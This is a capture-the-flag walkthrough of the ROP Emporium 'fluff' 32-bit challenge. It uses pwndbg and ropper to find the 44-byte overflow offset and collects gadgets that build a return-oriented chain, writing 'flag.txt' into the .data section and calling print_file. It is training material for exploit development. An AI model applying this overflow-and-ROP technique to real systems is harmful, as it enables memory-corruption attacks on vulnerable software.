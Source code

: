 # fluff (this example uses pwndbg):
### Challenge: https://ropemporium.com/challenge/fluff.html
###Pwndbg: https://github.com/pwndbg/pwndbg
###Video Walkthrough: https://www.youtube.com/watch?v=UM6d8DPB8wo

Setup: $ sudo pip install ropper

>   1. gdb fluff32
>   2. pwndbg> cyclic 100
```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
>   3. pwndbg> run
>   4. Paste the output from step 2
>   5. See the EIP register
```
*EIP  0x6161616c ('laaa')
```
>   6. pwndbg> cyclic -l laaa
```
44
```
>   7. pwndbg> disassemble usefulFunction
```
Dump of assembler code for function usefulFunction:
   0x0804852a <+0>:     push   ebp
   0x0804852b <+1>:     mov    ebp,esp
   0x0804852d <+3>:     sub    esp,0x8
   0x08048530 <+6>:     sub    esp,0xc
   0x08048533 <+9>:     push   0x80485e0
   0x08048538 <+14>:    call   0x80483d0 <print_file@plt>
   0x0804853d <+19>:    add    esp,0x10
   0x08048540 <+22>:    nop
   0x08048541 <+23>:    leave
   0x08048542 <+24>:    ret
End of assembler dump.
```
+ Observe the address to print_file: 0x80483d0

>   8. pwndbg> disassemble questionableGadgets
```
Dump of assembler code for function questionableGadgets:
   0x08048543 <+0>:     mov    eax,ebp
   0x08048545 <+2>:     mov    ebx,0xb0bababa
   0x0804854a <+7>:     pext   edx,ebx,eax
   0x0804854f <+12>:    mov    eax,0xdeadbeef
   0x08048554 <+17>:    ret
   0x08048555 <+18>:    xchg   BYTE PTR [ecx],dl
   0x08048557 <+20>:    ret
   0x08048558 <+21>:    pop    ecx
   0x08048559 <+22>:    bswap  ecx
   0x0804855b <+24>:    ret
   0x0804855c <+25>:    xchg   ax,ax
   0x0804855e <+27>:    xchg   ax,ax
End of assembler dump.
```
>   9. Notice the gadget at the top of the questionableGadgets
 + If we provide the correct masking characters for 0xb0bababa, then we can store our value in edx
```
   0x08048543 <+0>:     mov    eax,ebp
   0x08048545 <+2>:     mov    ebx,0xb0bababa
   0x0804854a <+7>:     pext   edx,ebx,eax
   0x0804854f <+12>:    mov    eax,0xdeadbeef
   0x08048554 <+17>:    ret

```
>   10. ropper -f fluff32 --search pop
```
   0x080485bb: pop ebp; ret; 
   0x08048558: pop ecx; bswap ecx; ret; 
```
>   11. Notice the `xchg` instruction gadget
```
   0x08048555 <+18>:    xchg   BYTE PTR [ecx],dl
   0x08048557 <+20>:    ret 
```
>   12. For the python exploit we will do something like this:
+ for each char in "flag.txt":


 - Pop ebp register with the char value
 - this char value will be manipulated so we put a differnt character that will mutate into the desired char
```
    0x080485bb: pop ebp; ret; 
    char                          ; the char to be manipulated
```

 - Use this gadget to store character in the edx register (while also working around the pext instruction)
```
    0x08048543 <+0>:     mov    eax,ebp
    0x08048545 <+2>:     mov    ebx,0xb0bababa   ; ebx stores this value
    0x0804854a <+7>:     pext   edx,ebx,eax      ; pext intruction of eax and ebx will be stored in edx
    0x0804854f <+12>:    mov    eax,0xdeadbeef
    0x08048554 <+17>:    ret 
```

 - Put address in the data section in the ecx register
```
    0x08048558: pop ecx; bswap ecx; ret;
    data_address_offset + index                 ; provide in big endian so bswap puts it back 
                                                ; will be stored in ecx
```

 - Keep in mind that the dl register is the last 8 bits of the edx register
 - So we're effectively writing on byte (or char) into the memory address ecx is pointing to
```
    0x08048555 <+18>:    xchg   BYTE PTR [ecx],dl
    0x08048557 <+20>:    ret
```

>   13. Get the address to data section: $ `readelf -S fluff32`
```
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [24] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
```
>   14. Get the mask values for "flag.txt"
+ Use get_mask.py as reference

>   15.  Compile the exploit (observe exploit.py for entire reference)


